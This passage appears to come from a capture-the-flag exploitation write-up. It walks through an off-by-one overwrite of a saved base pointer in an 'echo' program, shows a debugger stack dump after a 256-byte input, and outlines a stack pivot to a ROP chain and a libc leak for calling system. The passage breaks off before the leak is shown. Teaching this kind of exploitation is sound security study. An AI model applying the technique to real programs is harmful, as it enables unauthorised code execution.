 There's a lot of garbage in here (uninitialized buffer), but just ignore that, just focus on the preserved base pointer (`0x00007fffffffe260`), its value is currently `0x00007fffffffe290`, this is what the stack pointer will be set to at the end of `echo`.

`echo` passes a pointer to `echo_inner`, if you examine the stack after sending 256 bytes (you need to send 256 bytes) you'll see the preserved (set in `echo`) base pointer LSB has been reset to `00`:

```
0x00007fffffffe140│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffe148│+0x0008: 0x00007fffffffe27b  →  0xffe2d0000a363532 ("256\n"?)
0x00007fffffffe150│+0x0010: 0x00007fffffffe260  →  0x00007fffffffe200  →  "AAAAAAAA" ← $rbp
0x00007fffffffe158│+0x0018: 0x00005555555552f9  →  <echo+25> leave
0x00007fffffffe160│+0x0020: "AAAAAAAA"
0x00007fffffffe168│+0x0028: "AAAAAAAA"
0x00007fffffffe170│+0x0030: "AAAAAAAA"
0x00007fffffffe178│+0x0038: "AAAAAAAA"
0x00007fffffffe180│+0x0040: "AAAAAAAA"
0x00007fffffffe188│+0x0048: "AAAAAAAA"
0x00007fffffffe190│+0x0050: "AAAAAAAA"
0x00007fffffffe198│+0x0058: "AAAAAAAA"
0x00007fffffffe1a0│+0x0060: "AAAAAAAA"
0x00007fffffffe1a8│+0x0068: "AAAAAAAA"
0x00007fffffffe1b0│+0x0070: "AAAAAAAA"
0x00007fffffffe1b8│+0x0078: "AAAAAAAA"
0x00007fffffffe1c0│+0x0080: "AAAAAAAA"
0x00007fffffffe1c8│+0x0088: "AAAAAAAA"
0x00007fffffffe1d0│+0x0090: "AAAAAAAA"
0x00007fffffffe1d8│+0x0098: "AAAAAAAA"
0x00007fffffffe1e0│+0x00a0: "AAAAAAAA"
0x00007fffffffe1e8│+0x00a8: "AAAAAAAA"
0x00007fffffffe1f0│+0x00b0: "AAAAAAAA"
0x00007fffffffe1f8│+0x00b8: "AAAAAAAA"
0x00007fffffffe200│+0x00c0: "AAAAAAAA"
0x00007fffffffe208│+0x00c8: "AAAAAAAA"
0x00007fffffffe210│+0x00d0: "AAAAAAAA"
0x00007fffffffe218│+0x00d8: "AAAAAAAA"
0x00007fffffffe220│+0x00e0: "AAAAAAAA"
0x00007fffffffe228│+0x00e8: "AAAAAAAA"
0x00007fffffffe230│+0x00f0: "AAAAAAAA"
0x00007fffffffe238│+0x00f8: "AAAAAAAA"
0x00007fffffffe240│+0x0100: "AAAAAAAA"
0x00007fffffffe248│+0x0108: "AAAAAAAA"
0x00007fffffffe250│+0x0110: "AAAAAAAA"
0x00007fffffffe258│+0x0118: "AAAAAAAA"
0x00007fffffffe260│+0x0120: 0x00007fffffffe200  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

`0x00007fffffffe290` is now `0x00007fffffffe200` and also pointing ~2/3rd down our buffer.  This will be our stack pivot to our ROP chain.

Before we get ahead of ourselves we need to leak libc if we want to call `system`, that is provided by:
